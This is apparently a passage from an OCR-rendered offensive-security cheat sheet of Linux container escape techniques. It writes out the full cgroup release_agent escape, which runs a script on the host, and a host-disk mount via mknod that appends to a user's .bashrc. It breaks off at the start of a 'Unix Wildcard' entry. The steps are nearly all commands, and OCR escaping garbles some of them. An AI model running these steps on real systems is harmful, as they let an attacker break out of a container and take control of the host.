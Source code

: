 Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing Capabilities

Methods:

-   mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir
    > /tmp/cgrp/x

-   echo 1 \> /tmp/cgrp/x/notify_on_release

-   host_path=\`sed -n \'s/.\*\\perdir=\\(\[\^,\]\*\\).\*/\\1/p\'
    > /etc/mtab\`

-   echo \"\$host_path/cmd\" \> /tmp/cgrp/release_agent

-   echo \"\#!/bin/sh\" \> /cmd

-   echo \"ps aux \> \$host_path/output\" \>\> /cmd

-   chmod a+x /cmd

-   sh -c \"echo \\\$\\\$ \> /tmp/cgrp/x/cgroup.procs\"

-   cat /output

<a name="abusing-exposed-host-directories"></a>
# Abusing exposed host directories

Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing Capabilities

Methods:

-   mknod /dev/sdb1 block 8 17

-   mkdir /mnt/host_home

-   mount /dev/sdb1 /mnt/host_home

-   echo \'echo \"Hello from container land!\" 2\>&1\' \>\>
    > /mnt/host_home/eric_chiang_m/.bashrc

# 

<a name="unix-wildcard"></a>
# Unix Wildcard

Domain: No

Local Admin: Yes

